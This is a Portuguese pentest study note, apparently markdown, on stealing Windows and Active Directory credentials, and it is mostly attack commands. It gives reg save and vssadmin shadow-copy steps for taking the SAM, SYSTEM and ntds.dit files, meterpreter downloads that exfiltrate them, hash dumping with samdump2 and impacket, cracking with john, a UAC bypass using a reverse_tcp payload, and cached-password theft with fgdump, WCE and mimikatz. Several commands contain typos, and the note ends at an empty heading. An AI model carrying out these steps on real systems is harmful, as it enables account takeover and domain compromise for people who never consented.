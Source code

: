 ##   Hashes e Senhas - Windows

Introdução: Hashes em Windows

**SAM - Security Account Manager (Windows)**

Armazena as contas de usuários

%SystemRoot%/system32/config/sam

**NTDS.DIT (Windows Server / Active Directory)**

Armazena dados do AD incluindo as contas de usuários

%SystemRoot%/ntds/ntds.dit

**SYSTEM**

Arquivo do sistema necessário para decriptar o SAM/NTDS.DIT

%SystemRoot%/system32/config/system

Obs: Os arquivos acima são protegidos quando estão em execução, ou seja você não consegue copia-los quando estiverem em uso.

**Possivel solução para acesso aos arquivos**

**LOCALMENTE**

Acesso fisico ao computador? Realizar boot com live cd e capturar os arquivos.

**REMOTAMENTE**

C:\Windows\repair (apanesa sistema antigos como XP/2003)

Salvar direo do registro do windows (Desde versões antigas a versões recentes)

Ex: reg save hklm\sam

Cópia somnbra do volume (Versões mais recentes)

Ex: vssadmin


**ATAQUE**

Obter os arquvios e usá-los para obter os hashes

Tentar descobrir os hashes obtidos

**OUTRAS TÈCNICAS**

Senhas em memória/cache - Utilizar técnicas para obter senhas em cache ou na memória do Sistema.

Pass The Hash - Técnica para utilizar um hash sem precisar quebrá-lo

Captura de hashes na rede

**Exemplo de Hashes no Windows**

**Usuário   ID    LM(LAN MANAGER)   -   NTLM(NT LAN MANAGER)**

Administrador:500:aa.......................ee:ae..........................:::

rafaela:1005:aa...........................ee == vazio (significa que não está usando LM então se torna mais fácil de quebrar.)

Obs: ID = 500 - Corresponde a uma conta de administrador.




## Obtendo hashes: Sistemas Antigos

`getuid` - Comando para saber qual o seu nivel de permissão.

C:\WINDOWS\system32\config  - Local onde ficam armazenados as senhas

C:\WINDOWS\repair - Backup das senhas

`download sam` -> comando para fazer download do sam 

`download system` -> comando para fazer download do system 

Obs: o comando download é utilizado dentro do meterpreter

samdump2 - Aplicação para  idenficar os hashs baixados.

Obtendo system e sam diretamente do reg do windows.

`shell`

`C:\> reg /?`

`C:\> reg save hklm\sam samOK`

`C:\> reg save hklm\system systemOK`

`C:\> exit`

`meterpreter> download samOK`

`meterpreter> download systemOK`

`root@kali:/home/# samdump2 systemOK samOK`

Obs: baixar os arquivos direto do reg você baixa o arquvivo mais atualizado.

Outra aplicação para extrair as hashs

`impacket-secretsdump -sam samOK -system -systemOK LOCAL`




## Obtendo hashes: Sistemas Modernos

Salvando registro sam na area de trabalho do windows

- Execute o cmd como administrador
- reg save hklm\sam sam10
- reg save hklm\system system10

Exploit para ByPass em UAC (User Local Acont)

*Obs: Para utilizar este exlploit voce dever ja ter uma sessão aberta com o alvo.*

- search uac
- exploit(windows/local/ask)
- Payload options (windows/meterpreter/reverse_tcp):

*Obs: Para esse exploit ter sucesso tambem é preciso que o usuario da maquina alvo clique em sim na janela que irar abrir no alvo.*




## Obtendo hashes: Servidores AD

`C:\> cd windows`

`C:\Windows> cd ntds`

`C:\Windows\NTDS>dir`

ntds.dit --> Arquivo que possui as credenciais do Active Director, so que o mesmo não pode ser acesso de forma direta, então sera necessario fazer os proximos passos para obtermos as informações contidas no arquivo.

vssadmin - utilitario para criar uma copia sombra dos volumes que tem no windows.

`C:\>vssadmin list volumes`

`C:\>vssadmin create shadow /forc=c`

`C:\>copy DADOS_DO_SHADOW_COPY_VOLUME_NAME\windows\ntds\ntds.dit c:\ntds.dit`

`C:\>copy DADOS_DO_SHADOW_COPY_VOLUME_NAME\windows\system32\config\system c:\system12`

`C:\>copy DADOS_DO_SHADOW_COPY_VOLUME_NAME\windows\system32\config\sam c:\sam12`

`meterpreter > download sam12`

`meterpreter > download system12`

`meterpreter > download ntds.dit`

`impacket-secretdump -sam sam12 -system system12 LOCAL`

`impacket-secretdump -ntds ntds.dit -system system12 LOCAL`

**Descobrindo hashes **

`john --fotmat=lm hash.txt`

Obtendo hashes e senhas em cache

**fgdump**

fgdump.exe --> Permite conseguir acessar informações que estão na cache, credenciais. 

type arquivo.pwdump

type arquivo.cachedump

**WCE **

wce-universal.exe --> Ler informações de cache e exibe credenciais em texto claro.

wce-universal.exe -w

meterpreter > hashdump

**MIMIKATZ**

meterpreter > load mimikatz

meterpreter > wdigest

meterpreter > mimikatz_command -f sekurlsa::wdigest -a full

meterpreter > mimikatz_command -f sekurlsa::serchPasswords

meterpreter > mimikatz_command -f sekurlsa::logonPasswords

## Validando as credenciais obtidas






